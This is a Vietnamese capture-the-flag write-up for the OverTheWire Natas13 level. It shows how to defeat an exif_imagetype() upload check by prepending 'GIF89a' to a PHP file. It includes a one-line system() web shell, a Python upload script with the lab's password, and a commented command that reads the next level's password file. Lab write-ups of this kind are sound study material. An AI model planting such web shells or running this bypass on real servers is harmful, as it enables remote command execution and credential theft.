

# Natas13


- Bài này cũng thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- `Viewsource` xem thử code thế nào


- Mấu chốt của cả `source` nằm ở hàm `exif_imagetype()`

- Đọc về hàm `exif_imagetype()` : [Link](https://www.php.net/manual/en/function.exif-imagetype.php)

- Hàm này đọc *byte* đầu của file để xác định xem có phải là ảnh không

- Ta chỉ cần thêm `GIF89a` vào đầu file để đánh lừa hàm này là có thể *upload* file lên server

- Code `backdoor`:

```
	GIF89a
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
``` 

- Code *upload* của mình (thực sự thì upload bằng tay còn nhanh hơn...):

```
	import requests

	username = 'natas13'
	password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	s=requests.session()

	file = {
		'uploadedfile' : open('backdoor.php', 'rb'),
	}

	data = {
		'filename' : 'a.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = s.post(url+'upload/g3sysz0999.php?backdoor=cat /etc/natas_webpass/natas14', auth = (username, password))

	print(response.text)
```




